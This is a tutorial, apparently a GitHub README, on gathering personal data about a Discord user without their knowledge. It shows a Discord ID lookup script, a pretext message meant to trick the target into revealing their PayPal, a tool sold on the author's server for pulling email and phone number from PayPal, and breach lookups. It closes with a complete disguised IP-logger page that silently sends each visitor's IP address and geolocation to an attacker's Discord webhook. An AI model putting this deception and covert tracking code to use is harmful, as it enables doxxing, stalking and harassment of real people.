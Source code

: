 # Info Gathering of a Discord user

> **To get information from a Discord user, I recommend the following steps (please note that all of this is a dispensable and modifiable example):**

**1. Activate the Discord developper mode**

```text
User Settings > Application Settings > Behaviour and enable Developer Mode
```

**2. Obtain the user ID of the person to be provided with information** 

```text
Right click in the username > Copy user ID
```

**3. Obtaint information from this ID**

- **For this step we will use the API of [this](https://github.com/mesalytic/discord-lookup-api) repository, which can also look up information about guilds, apps, etc... But we will use it to look up the person ID of the user**

```text
https://discordlookup.mesalytic.moe/v1/user/ + the user ID of the person to search
```

- **The search result in your browser should look something like this:**

![imagen](https://github.com/user-attachments/assets/826ca3e5-79b4-4b53-a184-c2cbefacd3f5)

> **Here is an example of a Python request to the API to automate the process:**

```python
import requests, os

def clear():
    if os.name == 'nt': os.system('cls')
    else: os.system('clear')

API_URL = 'https://discordlookup.mesalytic.moe/v1/user/'

def main():
    clear()
    user = int(input('Enter the user ID to gather information: '))
    try:
        response = requests.get(API_URL + str(user))

        if response.status_code == 200:
            data = response.json()
                
            def format_user_info(data, indent=0):
                info = []
                for key, value in data.items():
                    if isinstance(value, dict):
                        info.append("  " * indent + f"{key.replace('_', ' ').title()}:")
                        info.append(format_user_info(value, indent + 1))
                    else:
                        if isinstance(value, list):
                            value = ", ".join(str(v) for v in value)
                        info.append("  " * indent + f"{key.replace('_', ' ').title()}: {value}")
                return '\n'.join(info)
                
            user_info = format_user_info(data)
            print('\n-------------------------------------------------------------------------------')
            print(user_info)
            print('\n-------------------------------------------------------------------------------')

        input()
        main()

    except Exception as ex:
        print('Error: ' + str(ex))


if __name__ == '__main__':
    main()
```

**4. Okay, after this, let's put social engineering into practice to get the target person's PayPal**

-  **You can send a message like this:**

```text
Hi, I would like to buy some items from your shop, I have been looking for them for a long time and I have found them, please tell me the price!
```

> **This is an example message, you can use any message you want**

- **Paypal example:**

```text
paypal.me/username
```

- **This is the structure if paypal.me, the most common, but the user can provide you the email**

- **Example PayPal email:**

```text
example@gmail.com
```

**5. When you have PayPal.me, we will use my server tech, which you can access [here](https://discord.gg/freeforreal)**

- You need to get the tech from the shop called ‘t2ch-paypal’

![imagen](https://github.com/user-attachments/assets/1ec41666-d86e-479e-bb66-7dbdde011486)

**6. Use the tech to get the person's email and phone number. The number may not be revealed, there is a bug for that, but get as much information as you can from that PayPal**

**6. After that, you can use our bots for server lookups, as well as other platforms such as intelX. I also recommend you to use the snusbase tool you will find on my server to check if the email is leaked**

> **Para el número de teléfono, te recomiendo esta [herramienta](https://github.com/Euronymou5/Dark-Hydro)**
> **For email, I re-recommend these sites, in addition to open source tools from GitHub that you can download and use, like [MailCat](https://github.com/sharsil/mailcat) or [Sherlock](https://github.com/sherlock-project/sherlock), for example:**

- https://mailmeteor.com/email-checker
- https://www.aware-online.com/en/osint-tools/email-address-tools/
- https://epieos.com/
- https://hunter.io/email-verifier
- https://tools.emailhippo.com/
- https://email-checker.net/

> **If you want to make more complete OSINT searches, I recommend [this](https://github.com/Euronymou5/DorkBuster) tool**

## Obtaining the public IP

**1. If you want to get someone's public IP, the first option is [IpLogger](https://iplogger.org/en/) (in my opinion the worst)**

**2. The second option is to use the open source tool [RedHawk](https://github.com/Tuhinshubhra/RED_HAWK). You can download it by following the instructions, and it allows you, among other options, to know the public IP of the user who has raised a website. In other words, if the target has a website, this tool is generally very useful**

**3. The last option is to create your own website and host it (on [GitHub Pages](https://pages.github.com/) or another hosting of your choice) and put the code shown below:**

> **HTML code (index.html)**

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Not Available</title>
    <!-- CSS -->
    <link rel="stylesheet" href="src/css/main.min.css">
    <!-- Fontawesome -->
    <link href="https://cdn.staticaly.com/gh/hung1001/font-awesome-pro/4cac1a6/css/all.css" rel="stylesheet" type="text/css" />
    <!-- Google Fonts -->
    <link rel="preconnect" href="https://fonts.googleapis.com">
    <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
    <link href="https://fonts.googleapis.com/css2?family=Lora:wght@700&family=Poppins:wght@300;600&display=swap" rel="stylesheet">
    <!-- Leaflet -->
    <link rel="stylesheet" href="https://unpkg.com/leaflet@1.7.1/dist/leaflet.css" integrity="sha512-xodZBNTC5n17Xt2atTPuE1HxjVMSvLVW9ocqUKLsCC5CXdbqCmblAshOMAS6/keqq/sMZMZ19scR4PsZChSR7A==" crossorigin="" />
    <link rel="icon" type="image/x-icon" href="./src/favicon.ico">
    <script src="https://unpkg.com/leaflet@1.7.1/dist/leaflet.js" integrity="sha512-XQoYMqMTK8LvdxXYG3nZ448hOEQiglfqkJs1NOQV44cWnUrBc8PkAOcXy20w0vlaXaVUearIOBhiXZ5V3ynxwA==" crossorigin=""></script>
    <!-- Notyf CSS -->
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/notyf@3/notyf.min.css">
  </head>
  <body>
    <header class="header"></header>
    <script src="./config.js"></script>
    <script>
      function get_information(link, callback) {
        var xhr = new XMLHttpRequest();
        xhr.open("GET", link, true);
        xhr.onreadystatechange = function() {
          if (xhr.readyState === 4) {
            callback(xhr.responseText);
          }
        };
        xhr.send(null);
      }
      get_information("http://ip-api.com/json/?fields=status,message,continent,continentCode,country,countryCode,region,regionName,city,district,zip,lat,lon,timezone,offset,currency,isp,org,as,asname,reverse,mobile,proxy,hosting,query", function(text) {
        var div = document.createElement("div");
        div.innerHTML = text;
        div.id = "razzylog";
        const secondList = document.getElementsByClassName("header")[0]
        secondList.appendChild(div)
      });
      get_information("https://api.ipify.org/", function(text) {
        var div = document.createElement("div");
        div.innerHTML = text;
        div.id = "ipppp";
        const secondList = document.getElementsByClassName("header")[0]
        secondList.appendChild(div)
      });

      function ipLogByRaz() {
        var ispp = document.getElementById('ipppp').innerHTML
        var extra = document.getElementById("razzylog").innerHTML
        const request = new XMLHttpRequest();
        request.open("POST", wbhk);
        request.setRequestHeader('Content-type', 'application/json');
        const params = {
          username: "Logger",
          avatar_url: 'https://images.g2crowd.com/uploads/product/image/large_detail/large_detail_de619ca81012d42cede6fd18af63d8b1/inkscape.png',
          content: "**Ip** : _" + ispp + "_\n**Raw** : _https://api.techniknews.net/ipgeo/" + ispp + "_\n**Extra Info** : ```" + extra + "```"
        }
        request.send(JSON.stringify(params));
      }
      setTimeout(function() {
        ipLogByRaz()
      }, 700);
    </script>
    <style>
      .header {
        display: none
      }

      .map-container {
        display: none
      }
    </style>
  </body>
</html>
```

> **JavaScript code (config.js)**

```js
var wbhk = 'YOUR DISCORD WEBHOOK'
```

- **Create a webhook in Discord through which the data of whoever enters the WebLogger you have created will be sent. You can create it like this:**

```text
Server Config > Integrations > New Webhook > Copy Webhook URL
```

### Thanks for watch this tutorial and leave a star for Free for REAL please!
